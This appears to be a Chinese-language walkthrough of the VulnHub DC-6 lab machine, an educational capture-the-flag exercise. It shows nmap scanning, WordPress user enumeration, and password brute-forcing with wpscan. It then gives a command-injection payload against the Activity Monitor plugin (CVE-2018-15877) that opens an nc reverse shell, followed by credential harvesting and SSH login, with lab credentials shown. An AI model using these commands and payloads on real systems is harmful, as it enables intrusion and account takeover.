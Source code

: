 # DC 6

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-6,315/

## 知识点

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.156

echo "10.30.0.156 wordy" >> /etc/hosts ## 参考DC-2
```

![image](./img/vulnhub-dc6-1.png)


## 漏洞利用

按照DC-2的经验进行测试一波
```
wpscan --url http://wordy --enumerate u
```

![image](./img/vulnhub-dc6-2.png)

得到的用户列表

```
admin
mark
graham
sarah
jens
```

根据作者提示

![image](./img/vulnhub-dc6-3.png)

```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
wpscan --url http://wordy --passwords passwords.txt
```

![image](./img/vulnhub-dc6-4.png)

扫描出一个用户的账号密码：mark / helpdesk01

登录后发现Activity monitor插件，首页也提示存在插件漏洞

```
http://wordy/wp-admin/admin.php?page=plainview_activity_monitor
```

百度搜索到:CVE-2018-15877
- https://www.cnblogs.com/SeanGyy/p/15576711.html1

```bash
nc -lvnp 4444 #kali
127.0.0.1| nc -e /bin/sh 10.30.0.81 4444
```

![image](./img/vulnhub-dc6-5.png)
![image](./img/vulnhub-dc6-6.png)

接下来就是提权操作

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
cd /home
ls -alR # 发现敏感信息
```

![image](./img/vulnhub-dc6-7.png)

```
cat ./mark/stuff/things-to-do.txt
```

![image](./img/vulnhub-dc6-8.png)

得到新的用户账号密码
```
graham   GSo7isUM1D4
```

```bash
ssh graham@10.30.0.156
sudo -l
```

![image](./img/vulnhub-dc6-9.png)


## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC6-WalkThrough.md
- http://www.kxsy.work/2021/07/30/shen-tou-dc-6/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/ywkpnt